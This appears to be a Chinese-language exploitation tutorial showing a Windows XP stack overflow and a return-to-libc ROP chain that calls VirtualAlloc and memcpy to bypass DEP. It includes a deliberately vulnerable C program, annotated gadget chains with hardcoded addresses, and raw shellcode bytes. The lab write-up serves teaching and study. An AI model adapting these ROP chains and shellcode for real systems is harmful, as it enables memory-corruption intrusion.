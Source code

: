 ```yaml
---
layout:		post
title:		Ret2Libc实战之利用VirtualAlloc
author:		wooy0ung
tags:		windows
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP Professional sp3  
>编译器: VC++ 6.0  
>调试器: OllyDbg 1.10  
>说明: 没有启用GS & SafeS.E.H, release版本, 禁用优化
<!-- more -->


VirtualAlloc函数说明
```
LPVOID WINAPI VirtualAlloc(
	__in_opt 	LPVOID	lpAddress,
	__in		SIZE_T	dwSize,
	__in		DWORD	flAllocationType,
	__in		DWORD	flProtect		
);
```

先贴入以下代码测试溢出, eip会覆盖成0x90909090

```
#include "stdafx.h"
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"

void test()
{
	char tt[176];
	memcpy(tt,shellcode,450);
}

int main(int argc, char* argv[])
{
	HINSTANCE hInst=LoadLibrary("shell32.dll");
	char temp[200];
	printf("emmmm");
	test();

	return 0;
}
```

然后就是构造rop链先后调用VirtualAlloc & memcpy

![](/assets/img/exploit/2017-12-22-disable-dep-virtualalloc/0x00.png)

返回eax=0x00030000表示内存分配成功

![](/assets/img/exploit/2017-12-22-disable-dep-virtualalloc/0x01.png)

VirtualAlloc参数传递栈布局如图

```
······					// junk 180 byte
"\xE5\xE0\x72\x7D"		// push esp pop ebp retn 4
"\xE3\x9A\x80\x7C"		// kernel32.VirtualAllocEx   0x7C809AE3
"\x90\x90\x90\x90"
"\x7d\x99\x80\x7c"		// pop eax retn
"\x00\x00\x03\x00"		// 申请空间起始地址
"\xFF\x00\x00\x00"		// 申请空间大小
"\x00\x10\x00\x00"		// 申请类型
"\x40\x00\x00\x00"		// 申请空间访问地址
"\x9e\x37\xfa\x77"		// address of pop edi pop esi retn
"\xE5\xE0\x72\x7D"		// push esp pop ebp retn 4
"\xb8\x1d\x92\x7c"		// memcpy
"\xc7\xc6\xeb\x77"		// jmp eax
"\x00\x00\x03\x00"		// destination
"\xf8\xfe\x12\x00"      // source
"\xff\x00\x00\x00"		// length
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
······					// payload 113 byte
```

根据调试得到存放payload的栈地址, pwn~

![](/assets/img/exploit/2017-12-22-disable-dep-virtualalloc/0x02.png)

由于source地址是调试得到的, 极不稳定, 以下是通用性好些的shellcode

```
······					// junk 180 byte
"\xE5\xE0\x72\x7D"		// push esp pop ebp retn 4
"\xE3\x9A\x80\x7C"		// kernel32.VirtualAllocEx
"\x90\x90\x90\x90"
"\x7d\x99\x80\x7c"		// pop eax retn
"\x00\x00\x03\x00"		// 申请空间起始地址
"\xFF\x00\x00\x00"		// 申请空间大小
"\x00\x10\x00\x00"		// 申请类型
"\x40\x00\x00\x00"		// 申请空间访问地址
"\xB1\x1D\x92\x7C"		// pop esi retn
"\x36\xD4\x5D\x7D"		// pop edi
"\x00\x00\x03\x00"		// destination
"\xA0\x6F\x5F\x7D"		// pop ecx
"\xff\x00\x00\x00"		// length
"\xc6\xc6\xeb\x77"		// source, push esp jmp eax
"\xE5\xE0\x72\x7D"		// push esp pop ebp retn 4
"\xc1\x1d\x92\x7c"		// memcpy
"\x7d\x99\x80\x7c"		// pop eax retn
"\x18\x00\x03\x00"
"\xc7\xc6\xeb\x77"		// jmp eax
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7";
```